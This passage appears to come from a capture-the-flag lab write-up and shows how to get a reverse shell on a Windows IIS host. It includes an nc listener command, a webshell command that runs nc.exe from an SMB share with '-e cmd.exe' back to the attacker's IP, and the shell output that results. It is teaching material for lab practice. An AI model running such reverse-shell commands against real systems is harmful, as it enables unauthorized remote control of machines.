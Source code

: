 

I'll also start a `nc` listener on my local box to catch the shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443



I'll enter the following command into the webshell:



    \\10.10.14.14\share\nc.exe -e cmd.exe 10.10.14.14 443



And I get a shell on my listener:



    c:\windows\system32\inetsrv>whoami
    whoami
    iis apppool\web

    c:\windows\system32\inetsrv>



Here's the entire process:

[![](/img/devel-shell.gif)](/img/devel-shell.gif)
*click gif for full size version*

#### Nishang
